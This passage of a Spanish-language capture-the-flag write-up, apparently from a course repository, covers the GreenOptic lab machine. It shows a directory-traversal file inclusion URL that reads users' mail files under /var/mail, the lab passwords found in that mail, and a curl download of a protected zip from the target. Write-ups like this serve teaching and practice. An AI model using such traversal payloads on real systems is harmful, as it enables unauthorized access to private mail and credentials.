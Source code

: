 Ingresando las credenciales obtenidas en el url recoveryplan.greenoptic.vm

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen29.png)

Se observa un sitio web ‘phpBB’, que funciona como tablón de anuncios gratuito y es de código abierto. Ingresamos a ‘Key Information’, al mensaje ‘Team message’

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen30.png)

Se encuentra un correo, en el que un usuario está discutiendo el último ataque a su empresa y también compartió un archivo zip llamado dpi.zip y la contraseña de este archivo zip fue enviada por correo electrónico al usuario Sam.

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen31.png)
 
Encontramos de los correos se almacenan en /var/mail/[usuario].

Usando la inclusión de archivos, para obtener los correos recibidos por sam:
http://192.168.115.149/account/index.php?include=../../../../../../../../var/mail/sam

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen32.png)

Se obtiene:

From terry@greenoptic.vm Sun Jul 12 16:13:45 2020 Return-Path: X-Original-To: sam Delivered-To: sam@websrv01.greenoptic.vm Received: from localhost (localhost [IPv6:::1]) by websrv01.greenoptic.vm (Postfix) with ESMTP id A8D371090085 for ; Sun, 12 Jul 2020 16:13:18 +0100 (BST) Message-Id: <20200712151322.A8D371090085@websrv01.greenoptic.vm> Date: Sun, 12 Jul 2020 16:13:18 +0100 (BST) From: terry@greenoptic.vm Hi Sam, per the team message, the password is HelloSunshine123

Del ultimo correo se tiene la contraseña de Sam.

Procedemos con descargar el archivo dpi.zip por comando
> curl http://recoveryplan.greenoptic.vm/dpi.zip -u staff --output dpi.zip4

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen33.png)

Con la contraseña (HelloSunshine123) obtenida del correo de sam, desempaquetamos el zip4. Obtenemos un archivo dpi.pcap.

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen34.png)

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen35.png)
 

De igual manera se podría ver el mensaje recibido por terry, con el siguiente url:
http://192.168.115.149/account/index.php?include=../../../../../../../../var/mail/terry

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen36.png)

From serversupport@greenoptic.vm Sun Jul 12 15:52:19 2020 Return-Path: X-Original-To: terry Delivered-To: terry@websrv01.greenoptic.vm Received: from localhost (localhost [IPv6:::1]) by websrv01.greenoptic.vm (Postfix) with ESMTP id C54E21090083 for ; Sun, 12 Jul 2020 15:51:32 +0100 (BST) Message-Id: <20200712145137.C54E21090083@websrv01.greenoptic.vm> Date: Sun, 12 Jul 2020 15:51:32 +0100 (BST) From: serversupport@greenoptic.vm Terry As per your request we have installed phpBB to help with incident response. Your username is terry, and your password is wsllsa!2 Let us know if you have issues Server Support – Linux
